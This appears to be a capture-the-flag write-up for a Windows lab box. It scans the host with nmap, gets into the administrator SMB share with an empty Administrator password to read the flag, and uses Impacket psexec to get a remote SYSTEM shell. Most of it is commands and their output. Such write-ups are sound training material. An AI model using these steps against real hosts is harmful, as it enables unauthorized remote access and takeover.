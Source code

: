 # Enumeration

Start nmap with -sC (Defalt script) and -Pn (Probe firewall)
```shell
└─$ nmap -sC -Pn 10.129.157.192 -o enumeration/nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 21:23 CEST
Nmap scan report for 10.129.157.192
Host is up (0.036s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-09-02T19:24:06
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 45.14 seconds
```

Relevant information about SMB:
```
Inherently, SMB (Server Message Block) is a file sharing protocol, which means that we might extract some
useful byproducts by exploring it. This can be achieved by using the smbclient tool. It comes pre-installed
with the Parrot OS used by Pwnbox, but if you don't have it on your VM, you can install it by running the
command below.
Port 135:
The Remote Procedure Call (RPC) service supports communication between Windows
applications. Specifically, the service implements the RPC protocol — a low-level form
of inter-process communication where a client process can make requests of a server
process. Microsoft’s foundational COM and DCOM technologies are built on top of RPC.
The service’s name is RpcSs and it runs inside the shared services host process,
svchost.exe. This is one of the main processes in any Windows operating system & it
should not be terminated.
Port 139:
This port is used for NetBIOS. NetBIOS is an acronym for Network Basic Input/Output
System. It provides services related to the session layer of the OSI model allowing
applications on separate computers to communicate over a local area network. As
strictly an API, NetBIOS is not a networking protocol. Older operating systems ran
NetBIOS over IEEE 802.2 and IPX/SPX using the NetBIOS Frames (NBF) and NetBIOS over
IPX/SPX (NBX) protocols, respectively. In modern networks, NetBIOS normally runs over
TCP/IP via the NetBIOS over TCP/IP (NBT) protocol. This results in each computer in the
network having both an IP address and a NetBIOS name corresponding to a (possibly
different) host name. NetBIOS is also used for identifying system names in
TCP/IP(Windows).
Simply saying, it is a protocol that allows communication of files and printers through
the Session Layer of the OSI Model in a LAN.
Port 445:
This port is used for the SMB. SMB is a network file sharing protocol that requires an
open port on a computer or server to communicate with other systems. SMB ports are
generally port numbers 139 and 445. Port 139 is used by SMB dialects that communicate
over NetBIOS. It's a session layer protocol designed to use in Windows operating
systems over a local network. Port 445 is used by newer versions of SMB (after Windows
2000) on top of a TCP stack, allowing SMB to communicate over the Internet. This also
means you can use IP addresses in order to use SMB like file sharing.
Simply saying, SMB has always been a network file sharing protocol. As such, SMB
requires network ports on a computer or server to enable communication to other
systems. SMB uses either IP port 139 or 445.
```

List shares with smbclient:
```shell
└─$ smbclient -L 10.129.157.192 -U Administrator | tee -a enumeration/smblist.txt
Password for [WORKGROUP\Administrator]:do_connect: Connection to 10.129.157.192 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)


	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

```

# Foothold

Option A:

```shell
└─$ smbclient \\\\10.129.157.192\\C$ -U Administrator 
Password for [WORKGROUP\Administrator]:
Try "help" to get a list of possible commands.
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> dir
  .                                  DR        0  Thu Apr 22 09:16:03 2021
  ..                                 DR        0  Thu Apr 22 09:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 17:23:32 2021
  flag.txt                            A       32  Fri Apr 23 11:39:00 2021

		3774463 blocks of size 4096. 1156676 blocks available
smb: \Users\Administrator\Desktop\> get flag.txt
getting file \Users\Administrator\Desktop\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Users\Administrator\Desktop\> 
exit
└─$ cat flag.txt               
f751c19eda8f61ce81827e6930a1f40c  
```

Option B: Impacket (To confirm with TRX)
We managed to get the SMB command-line interactive interface. However, since we can access this ADMIN$
share, we will try to use a tool called psexec.py to exploit this misconfiguration & get the interactive
system shell. The psexec.py is part of the Impacket framework.

packet creates a remote service by uploading a randomly-named executable on the ADMIN$ share on the
remote system and then register it as a Windows service.This will result in having an interactive shell
available on the remote Windows system via TCP port 445 .
Psexec requires credentials for a user with local administrator privileges or higher since reading/writing to
the ADMIN$ share is required. Once you successfully authenticate, it will drop you into a NT
AUTHORITY\SYSTEM shell.
We can Download Impacket from this [link](https://github.com/SecureAuthCorp/impacket).

Lets use impacket already installed on kali:
```shell
┌──(venv)─[~/…/Tactics/foothold/impacket/examples]
└─$ python3 psexec.py administrator@10.129.157.192
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.157.192.....
[*] Found writable share ADMIN$
[*] Uploading file VJexSgoV.exe
[*] Opening SVCManager on 10.129.157.192.....
[*] Creating service aVMp on 10.129.157.192.....
[*] Starting service aVMp.....
[*] Opening SVCManager on 10.129.157.192.....
[-] Error performing the uninstallation, cleaning up
                                                                                                            
┌──(venv)─[~/…/Tactics/foothold/impacket/examples]

```





